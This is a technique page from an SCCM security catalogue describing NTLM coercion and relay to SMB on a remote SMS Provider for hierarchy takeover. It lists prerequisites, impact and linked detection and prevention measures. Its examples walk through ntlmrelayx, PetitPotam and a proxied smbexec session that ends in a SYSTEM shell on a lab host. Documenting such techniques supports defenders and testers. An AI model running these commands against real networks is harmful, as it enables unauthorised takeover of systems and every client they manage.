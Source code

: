 # TAKEOVER-6

## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.

## Impact
This technique may allow an attacker to relay a site server domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step:
    ```
    └─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] HTTPS Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

    ```
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
    [*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
    [*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
    socks
    Protocol  Target        Username   AdminStatus  Port
    --------  ------------  ---------  -----------  ----
    SMB       10.10.100.12  LAB/SCCM$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM:
    ```
    └─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
     ■AdminID   LogonName
    16777217  LAB\Administrator
    16777220  LAB\lowpriv

    C:\Windows\system32>
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)